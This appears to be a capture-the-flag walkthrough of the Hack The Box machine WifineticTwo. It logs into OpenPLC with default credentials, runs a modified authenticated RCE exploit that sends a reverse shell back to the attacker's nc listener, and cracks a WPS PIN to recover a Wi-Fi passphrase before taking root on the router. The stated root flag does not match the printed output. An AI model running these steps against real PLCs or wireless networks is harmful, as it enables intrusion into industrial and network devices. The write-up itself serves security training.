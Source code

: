 ```yaml
---
layout: post
title: "HTB Linux Medium: WifineticTwo"
description: "WifineticTwo is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.216.2    
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-16 15:16 EDT
Nmap scan report for 10.129.216.2
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.3dUcgcaRXGE3EcQDnupPafpjZrQ; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: <http://0.0.0.0:8080/login>
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.gB4EVPvXX9GhZI_B6KFkEnoW-Do; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.3dUcgcaRXGE3EcQDnupPafpjZrQ; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 16.87 seconds

```


## Enumerate HTTP (Port 8080)
We are redirected to a login page.
![Pasted image 20240714211546.png](/images/Pasted image 20240714211546.png){: .normal }


From the login page we see that OpenPLC is running. After a quick google search, we find that the default credentials are `openplc:openplc`.
![Pasted image 20240714211542.png](/images/Pasted image 20240714211542.png){: .normal }


Authenticated RCE for OpenPLC 3: [PoC](https://www.exploit-db.com/exploits/49803).
![Pasted image 20240714211537.png](/images/Pasted image 20240714211537.png){: .normal }
> Error when compiling.
{: .prompt-warning }


Since we get errors when running the Python exploit we have to make some modifications. Since the error we get is about a file not existing we should take a look at the programs and see what files do exist (we find blank_program.st).
![Pasted image 20240714211532.png](/images/Pasted image 20240714211532.png){: .normal }


Now, to fix the script modify the following line.
```python
compile_program = options.url + '/compile-program?file=blank_program.st' 
```

Execute the Python exploit.
```
┌──(kali㉿kali)-[~]
└─$ python3 shell.py -u <http://10.10.11.7:8080> -l openplc -p openplc -i 10.10.14.234 -r 4445
```

Get the shell connection using nc.
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4445 
listening on [any] 4445 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.11.7] 35188
id
uid=0(root) gid=0(root) groups=0(root)
```

User.txt `8c55214b31b0e8dcdf4248b8032f5d9b`
```
cat user.txt
8c55214b31b0e8dcdf4248b8032f5d9b
```


## Privilege Escalation
We have to start by getting the BSSID.
```bash
root@attica01:/tmp# iwlist wlan0 scanning
wlan0     Scan completed :
          Cell 01 - Address: 02:00:00:00:01:00
                    Channel:1
                    Frequency:2.412 GHz (Channel 1)
                    Quality=70/70  Signal level=-30 dBm  
                    Encryption key:on
                    ESSID:"plcrouter"
                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
                              9 Mb/s; 12 Mb/s; 18 Mb/s
                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
                    Mode:Master
                    Extra:tsf=000613d992b06128
                    Extra: Last beacon: 36ms ago
                    IE: Unknown: 0009706C63726F75746572
                    IE: Unknown: 010882848B960C121824
                    IE: Unknown: 030101
                    IE: Unknown: 2A0104
                    IE: Unknown: 32043048606C
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: Unknown: 3B025100
                    IE: Unknown: 7F080400000200000040
                    IE: Unknown: DD5C0050F204104A0001101044000102103B00010310470010572CF82FC95756539B16B5CFB298ABF11021000120102300012010240001201042000120105400080000000000000000101100012010080002210C1049000600372A000120
```

Use oneshot to get the WPA PSK password: [Link](https://github.com/nikita-yfh/OneShot-C)
```bash
root@attica01:/tmp# sudo ./oneshot -i wlan0 -K --bssid 02:00:00:00:01:00
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: 29e8fb36dbdbc9e7921f1577e7c679c5
[*] Building Message M2
[P] PKR: 6a47896e780650fb548e1e9a17b4ad7ed43b2415fb59828db37ca996d07d930e8998901274148effc234fedd96c57eb693238df1ac7f0e6c52467a67b2007e29fbaaed42def7e8c6cfadcbf0e89295f50394e40de71e6af66f449751ee7e01f97cd0679276402f05cf3040e17cc0eeeb85c164f70b0bfaf11c38469d93999fba13c35cccca1289f6d4a8d2e05cb02ef209f38121eac8dae4b40f7059114889ac25cda69229e19e0516b86ed193c34d6c828072bba4cdc006b95ad0eb9a932963
[P] PKE: 68e60ed4d3011aa949d8599e37892f46b6775075aa5d8a341a37fb370d66c0d5546aa1e432e61dbeb6efaf1bb13ff81751ba983f86dfd86d1febe2dd73e2167683e3272fb3e33157b140ab27cbd7311135a13dbcbebaf21e970949ac7781a063528893144a0afd07409dcb67e7939d666d8a949d03b562949275587e63898c2dd990257bd9e62085085312610dd0c86da3dd1ea8019e715f350a8a2675b56c437198ace25300024cc5bebd44a972202fd4d693b6bb4b79c22ba86f85bb404787
[P] Authkey: 6195bd85a2971ef00fc088c735c6bfdb3b07e45ce7b2fa11a2a3b1fd567adf45
[*] Received WPS Message M3
[P] E-Hash1: 6c0dcaaeaa33d14598bd13d4bc7f88d9da074cb10e10f192f6d1f66b9173f3f0
[P] E-Hash2: 07d847ec86a9ab5370630609c47ac8c2b0028554b305af2caad1f9e4b68bcb33
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter
```

Since we have the passphrase we can create a config file and apply it to the interface. Once the config is applied we can assign a static IP to the wlan0 interface using ifconfig.
```bash
root@attica01:/tmp# wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config
root@attica01:/tmp# wpa_supplicant -B -c config -i wlan0
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
root@attica01:/tmp# ifconfig wlan0 192.168.1.7 netmask 255.255.255.0
```

Now we can SSH to 192.168.1.1 as the root user.
```bash
root@attica01:/tmp# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.

BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# id
uid=0(root) gid=0(root)
```

Root.txt: `fc8707d25a65532e191b26a431a9d45a`
```bash
root@ap:~# cat root.txt
5a5266a1edbe69715d89098c60c89373
```

### PWNED!!!
![Pasted image 20240714211516.png](/images/Pasted image 20240714211516.png){: .normal }